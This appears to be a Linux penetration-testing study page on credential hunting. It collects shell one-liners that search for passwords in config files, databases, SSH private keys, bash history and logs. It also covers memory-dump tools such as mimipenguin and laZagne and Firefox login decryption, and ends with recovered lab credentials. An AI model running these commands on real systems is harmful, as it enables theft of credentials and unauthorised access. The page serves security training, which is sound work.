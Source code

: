# Credentail Hunting

## **Files**

### **Credentials in Configuration Files**

```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

### **Databases**

```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

### **Notes**

```shell-session
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

> Notes is chalenging to find due to the name of the file could be anything and might not have an extension. We can scan for all of those file and look at the file names manually

### **Scripts**

```shell-session
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

### **Cronjobs**

```shell-session
cat /etc/crontab
```

```shell-session
ls -la /etc/cron.*/
```

### **SSH Keys**

#### **SSH Private Keys**

```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

#### **SSH Public Keys**

```bash
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

### **Bash History**

```shell-session
tail -n5 /home/*/.bash*
```

### **Logs**

```shell-session
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## **Memory**

### **Mimipenguin**

```shell-session
sudo python3 mimipenguin.py
#or
sudo bash mimipenguin.sh 
```

### laZagne

To run the python package of laZagne.py you have to move the entire directory of the linux package from the github since it has all the dependencies.

```shell-session
sudo python3 laZagne.py all
```

### **Firefox Stored Credentials**

```shell-session
ls -l .mozilla/firefox/ | grep default 
```

```shell-session
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

#### **Decrypting Firefox Credentials**

```shell-session
python3 firefox_decrypt.py
```

## Assessment

<figure><img src="../../../.gitbook/assets/image (72).png" alt=""><figcaption><p>kira:L0vey0u1!</p></figcaption></figure>

Running lazagne.py will give us the following

<figure><img src="../../../.gitbook/assets/image (27) (1).png" alt=""><figcaption><p>TUqr7QfLTLhruhVbCP</p></figcaption></figure>

